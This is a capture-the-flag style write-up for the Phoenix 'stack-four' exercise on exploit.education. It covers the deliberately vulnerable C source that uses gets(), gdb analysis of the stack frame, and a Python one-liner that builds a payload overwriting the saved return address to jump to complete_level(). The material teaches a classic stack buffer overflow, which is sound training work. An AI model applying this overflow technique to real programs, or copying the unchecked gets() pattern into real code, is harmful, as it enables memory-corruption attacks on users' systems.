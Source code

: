 ## Stack Four
Stack Four takes a look at what can happen when you can overwrite the saved instruction pointer (standard buffer overflow).

## Source Code
```c
/*
 * phoenix/stack-four, by https://exploit.education
 *
 * The aim is to execute the function complete_level by modifying the
 * saved return address, and pointing it to the complete_level() function.
 *
 * Why were the apple and orange all alone? Because the bananna split.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

## Challenge
The aim is to execute the function `complete_level()` by modifying the saved return address, and pointing it to the `complete_level()` function.

## Solution
A perfect example for a classic stack-smashing.

### The Plan
Another `gets()` overflow, only this time we will overwrite `start_level()`'s return address (on the stack) in order to redirect execution to `complete_level()`.

Don't worry if you don't understand what that means yet, we will debug our way through writing the exploit and understanding the concepts.

### Debugging
```console
user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-four
```
```console
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000400438  _init
0x0000000000400460  printf@plt
0x0000000000400470  gets@plt
0x0000000000400480  puts@plt
0x0000000000400490  exit@plt
0x00000000004004a0  __libc_start_main@plt
0x00000000004004b0  _start
0x00000000004004c6  _start_c
0x00000000004004f0  deregister_tm_clones
0x0000000000400520  register_tm_clones
0x0000000000400560  __do_global_dtors_aux
0x00000000004005f0  frame_dummy
0x000000000040061d  complete_level
0x0000000000400635  start_level
0x000000000040066a  main
0x00000000004006a0  __do_global_ctors_aux
0x00000000004006e2  _fini
(gdb) b main
Breakpoint 1 at 0x40066e
(gdb) b start_level
Breakpoint 2 at 0x400639
```
Notice `complete_level()`'s address is `0x000000000040061d`, this is the address we want `start_level()` to return to.

```nasm
(gdb) r
(gdb) disas
Dump of assembler code for function main:
   0x000000000040066a <+0>:     push   rbp
   0x000000000040066b <+1>:     mov    rbp,rsp
=> 0x000000000040066e <+4>:     sub    rsp,0x10
   0x0000000000400672 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:    mov    edi,0x400750
   0x000000000040067e <+20>:    call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:    mov    eax,0x0
   0x0000000000400688 <+30>:    call   0x400635 <start_level>
   0x000000000040068d <+35>:    mov    eax,0x0
   0x0000000000400692 <+40>:    leave
   0x0000000000400693 <+41>:    ret
End of assembler dump.
```
`*main+30` is where `start_level()` is called, thus it will return to `*main+35` (the next instruction in `main()`)
> When a `call` instruction is executed, the address of the following instruction is
pushed onto the stack as the return address and control passes to the specified function.

```console
(gdb) b *main+30
Breakpoint 3 at 0x400688
(gdb) c
Continuing.
Welcome to phoenix/stack-four, brought to you by https://exploit.education
```
```nasm
 →   0x400688 <main+30>        call   0x400635 <start_level>
   ↳    0x400635 <start_level+0>  push   rbp
        0x400636 <start_level+1>  mov    rbp, rsp
        0x400639 <start_level+4>  sub    rsp, 0x50
        0x40063d <start_level+8>  lea    rax, [rbp-0x50]
```

#### About Stacks And Frames
> An x64 program uses a region of memory called the stack to support function calls. As the name
suggests, this region is organized as a stack data structure with the “top” of the stack growing
towards lower memory addresses. For each function call, new space is created on the stack to
store local variables and other data. This is known as a *stack frame*. To accomplish this, you will
need to write some code at the beginning and end of each function to create and destroy the
stack frame.

```nasm
0x400635 <start_level+0>  push   rbp
0x400636 <start_level+1>  mov    rbp, rsp
0x400639 <start_level+4>  sub    rsp, 0x50
```
These instructions are known as the *function prologue*, and they prepare the *stack frame* for `start_level()`.
1. Push `rbp` (*base pointer*, responsible for keeping track of the current function's stack frame) to the stack, in order to be able to recover the caller's stack frame when the function returns
2. Move `rsp` (*stack pointer*, points to the top item in the stack) to `rbp`, this defines the new stack frame's start
3. Subtract a number of bytes from `rsp`, reserves place on the stack for the function's local variables

We also have a *function epilogue*,
```nasm
0x400668 <start_level+51>  leave
0x400669 <start_level+52>  ret
```
> The `leave` instruction sets `rsp` to `rbp` and pops the top of the stack into `rbp`

> The `ret` instruction pops the return address from the stack and jumps there
1. Move `rbp` to `rsp`, recover stack pointer to the previous location (caller stack frame), before subtraction
2. Pop top item in the stack to `rbp`, restore caller's stack frame base
3. Pop the address function returns to from the stack
4. Jump to the address (thus returning)

#### Back To Debugging
After stepping through the function prolouge,
```nasm
     0x400637 <start_level+2>  mov    ebp, esp
     0x400639 <start_level+4>  sub    rsp, 0x50
 →   0x40063d <start_level+8>  lea    rax, [rbp-0x50]
     0x400641 <start_level+12> mov    rdi, rax
     0x400644 <start_level+15> call   0x400470 <gets@plt>
     0x400649 <start_level+20> mov    rax, QWORD PTR [rbp+0x8]
     0x40064d <start_level+24> mov    QWORD PTR [rbp-0x8], rax
```
![](/images/stack-4/0.png)

We can identify:
* 🟠 `rbp-0x50` - `buffer` being passed to `gets()`
* 🔴 `rbp` - base pointer points to the caller's base pointer (pushed to stack during prelouge)
* 🔵 `rbp+0x8` - return address (what we want to overwrite), pushed to stack during `call start_level`, thus outside of current stack frame
* 🟢 `rbp-0x8` - `ret` the pointer that get's the return address through `__builtin_return_address(0)`
* 🟣 `rbp-0x10` - padding added by compiler

### Breaking It
* 🟠🟣🟢 overwrite the `0x50` (80) bytes allocated to the local variables with junk
* 🔴 overwrite `rbp` with it's value
* 🔵 overwrite the return address with `0x000000000040061d` (the address of `complete_level()`)

Get `rbp`'s value:
```console
(gdb) dereference $rbp
0x00007fffffffe670│+0x0000: 0x00007fffffffe690  →  0x0000000000000001    ← $rbp
```

We can use `pwntools`' `p64()` to pack a 64bit little-endian integer.

```console
user@phoenix-amd64:~$ python -c "from pwn import p64; f=open('smash', 'wb'); f.write('a'*0x50+p64(0x00007fffffffe690)+p64(0x000000000040061d))"
user@phoenix-amd64:~$ hexdump -C smash
00000000  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
*
00000050  90 e6 ff ff ff 7f 00 00  1d 06 40 00 00 00 00 00  |..........@.....|
00000060
```

![](/images/stack-4/1.png)

```console
user@phoenix-amd64:~$ /opt/phoenix/amd64/stack-four < smash
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
🥳
